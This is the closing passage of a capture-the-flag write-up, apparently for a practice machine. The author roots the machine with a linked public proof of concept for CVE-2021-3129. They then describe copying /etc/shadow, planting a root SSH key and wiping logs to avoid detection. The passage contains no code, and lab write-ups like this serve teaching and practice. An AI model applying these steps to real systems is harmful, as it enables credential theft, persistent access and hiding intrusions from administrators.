Download [this](https://github.com/nth347/CVE-2021-3129_exploit) exploit PoC to root the machine.



Navigate to /root/ directory and get your root.txt flag!

### STATUS: ROOTED

The next two steps are not necessary for completion of the machine but it completes the 5 Phases of Penetration Testing.

## Post Exploitation / Maintaining Access

Copied the /etc/shadow file for user identification and their passwords.

Added SSH key to as root user.



## Clearing Tracks

Removed all logs and footprints to to prevent risk of exposure of breach to security administrator.

## **Status: Finished**

Feel free to reach out and if there is something wrong about the above post. Feedbacks are also appreciated :D

### Donation Box

Not required but appreciated :D

[](https://ko-fi.com/hambyhaxx)

[](https://www.buymeacoffee.com/hambyhaxx)

### Socials

* [Twitter](https://twitter.com/hambyhaxx)

* [Medium](https://hambyhaxx.medium.com)

* [Hashnode](https://hambyhacks.hashnode.dev)

<-- [Go Back](https://hambyhacks.github.io)
